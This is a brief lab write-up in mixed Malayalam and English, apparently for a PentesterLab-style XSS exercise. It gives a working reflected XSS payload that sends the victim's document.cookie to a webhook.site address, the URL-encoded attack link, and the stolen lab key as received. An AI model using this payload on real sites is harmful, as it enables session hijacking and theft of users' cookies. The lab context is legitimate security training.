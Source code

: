 # XSS 10
-->ivide namuk ?name=il document.cookie alert chyan patunund
-->but namuk ith victim in koduth avante cookie aan namuk edukendath
-->so athinulla script aakanam
-->ithan payload : `<script>document.write('<img src="http://webhook.site/151c86e1-5f18-4983-8c0f-1d615a66f90a?c='%2bdocument.cookie%2b'" />')</script>`
-->ith paramter  value aayi koduthal pine aar ee link ilek pokuno avarude cookie kitum ok
-->NOTE : ivide namal script il + symbol use chythitund but ath url encode chythan aakiyirikunath ok
-->so final url payload:
->http://ptl-f31e21b7-f8adc285.libcurl.so/index.php?name=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://webhook.site/151c86e1-5f18-4983-8c0f-1d615a66f90a?c=%27%2bdocument.cookie%2b%27%22%20/%3E%27)%3C/script%3E
-->Ini namal webhoo.site il poyal victim inte cookie url il kidakunath kanam
->http://webhook.site/151c86e1-5f18-4983-8c0f-1d615a66f90a?c=PTLAB_KEY%3D28c30937-c1c0-405e-90ff-160bdf19450d
-->ivide 28c.. ennu thudangunathan key ok so ee badge theerunu ok